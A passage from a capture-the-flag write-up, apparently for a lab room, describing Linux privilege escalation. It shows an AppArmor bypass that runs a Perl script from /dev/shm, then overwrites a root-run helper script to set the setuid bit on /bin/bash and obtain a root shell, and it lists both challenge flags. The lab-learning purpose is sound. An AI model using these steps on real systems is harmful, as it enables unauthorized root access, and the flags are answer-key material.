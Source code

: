   ```
    deny /home/** w,
    /usr/bin/** mrix,
    /usr/sbin/** mrix,
  
    # Simplified rule for accessing /home directory
    owner /home/** rix,
  }
  ```

- Hacktricks have a pretty cool exploit for AppArmor. We can use the method mentioned here to bypass the AppArmor and spawn an unconfined shell.
  We just need to modify it to write to `/dev/shm` instead of `/tmp` since the deny `/tmp/** w` rule prevents us from writing to `/tmp`.

  ```
  think@ip-10-10-167-239:/dev/shm$ echo -e '#!/usr/bin/perl\nexec "/bin/sh"' > /dev/shm/test.pl
  think@ip-10-10-167-239:/dev/shm$ chmod +x /dev/shm/test.pl
  think@ip-10-10-167-239:/dev/shm$ /dev/shm/test.pl
  $ whoami
  think
  $ id
  uid=1000(think) gid=1000(think) groups=1000(think)
  ```

- With this shell, we are able to write to the `/opt/run_container.sh` file.

  ```$ echo '#!/bin/bash\nchmod +s /bin/bash' > /opt/run_container.sh```

- Now, running the `/usr/sbin/run_container`, which in turn will run the /opt/run_container.sh script, we can see changed permissions on /bin/bash.

  ```
  $ /usr/sbin/run_container
  $ ls -la /bin/bash
  -rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
  ```

- At last, by running `/bin/bash -p`, we can get a shell as root and read the root flag.

  ```
  $ /bin/bash -p
  bash-5.0# whoami
  root
  bash-5.0# id
  uid=1000(think) gid=1000(think) euid=0(root) egid=0(root) groups=0(root),1000(think)
  
  bash-5.0# cat /root/root.txt
  3a4225cc9e85709adda6ef55d6a4f2ca 
  ```

---

## 🏁 Flags

- **User Flag**: `fa229046d44eda6a3598c73ad96f4ca5`
- **Root Flag**: `3a4225cc9e85709adda6ef55d6a4f2ca`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Priv esc.`

- What did I learn?
  `New exploit and new privilege escalation.`

  ```